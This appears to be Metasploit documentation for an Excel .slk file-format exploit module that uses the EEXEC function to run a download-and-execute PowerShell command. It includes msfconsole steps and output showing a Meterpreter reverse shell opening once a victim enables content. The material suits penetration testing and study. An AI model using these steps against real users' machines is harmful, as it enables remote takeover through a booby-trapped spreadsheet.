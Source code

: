 ## Introduction

The .slk file format used by Microsoft Excel has the ability to execute local commands via the `EEXEC(cmd)` function.
This module takes advantage of this 'feature' to run a download-and-execute powershell command in order to spawn a session
on the target.

## Vulnerable Application

  Microsoft Excel (tested on Excel 2016)

## Verification Steps

1. Start `msfconsole`
2. `use exploit/windows/fileformat/office_excel_slk`
3. `set LHOST [IP]`
4. `set SRVHOST [IP]`
5. `run`
6. Open generated file and press 'Enable Content' in Excel

## Options

  **FILENAME**

  The name of the generated .slk file. Default is a randomly generated file name.

## Scenarios

### Microsoft Excel 2016 on Windows 10 Build 17763.288

  ```
  msf > use exploit/windows/fileformat/office_excel_slk
  msf exploit(office_excel_slk) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(office_excel_slk) > set lhost 192.168.146.1
  lhost => 192.168.146.1
  msf exploit(office_excel_slk) > set srvhost 192.168.146.1
  srvhost => 192.168.146.1
  msf exploit(office_excel_slk) > run
  [*] Exploit running as background job.

  [*] Started reverse TCP handler on 192.168.146.1:4444
  [+] msf.doc stored at /Users/carter/.msf4/local/msf.slk
  [*] Using URL: http://192.168.146.1:8080/default.hta
  [*] Server started.
  ```

  Once the victim opens the file and clicks 'Enable Content' a session should spawn:

  ```
  [*] Sending stage (957487 bytes) to 192.168.146.145
  [*] Meterpreter session 1 opened (192.168.146.1:4444 -> 192.168.146.145:50165) at 2019-01-13 16:00:49 -0500
  ```
